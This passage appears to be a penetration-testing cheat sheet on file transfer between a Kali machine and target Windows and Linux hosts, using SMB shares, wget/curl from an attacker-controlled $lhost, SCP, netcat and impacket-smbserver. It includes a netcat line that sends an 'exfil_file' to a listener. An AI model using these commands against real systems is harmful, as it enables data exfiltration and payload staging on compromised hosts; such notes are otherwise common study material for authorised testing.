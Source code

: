 Copy files from Kali to Windows:
```
copy \\$lhost\sharename\file.ext file.ext
```

Copy file from Windows to Kali:
```
copy file.ext \\$lhost\sharename\file.ext
```


## Linux
S
```
wget http://$lhost:$lport/file.ext
curl http://$lhost:$lport/file.ext -o /path/to/file.ext
```

### SCP

Credits:
[How to Use SCP Command for File Transfer](https://www.hostinger.com/tutorials/using-scp-command-to-transfer-files/#:~:text=SCP%20(secure%20copy%20protocol)%20is,for%20your%20data%20and%20credentials.)

Copying from a local server to a remote host and can use `-r` to copy multiple files or subdirectories:
```
scp -P [-r] 2222 /users/Hostinger/desktop/scp.zip root@191.162.0.2:/writing/article
```

Transferring a Remote File to a Local Machine
```
scp root@191.162.0.2:/writing/articles/SCP.zip Users/Hostinger/Desktop
```

Safely Moving a File Between Remote Hosts
```
scp root@191.162.0.2:/writing/article/scp.zip hostinger@11.10.0.1:/publishing
```

### nc
```
nc -lvnp 4444 > new_file
nc -vn <IP> 4444 < exfil_file
```
### SMB

Via set a smbserver impacket-smbserver:
```
impacket-smbserver -smb2support sharename /path/to/share
```
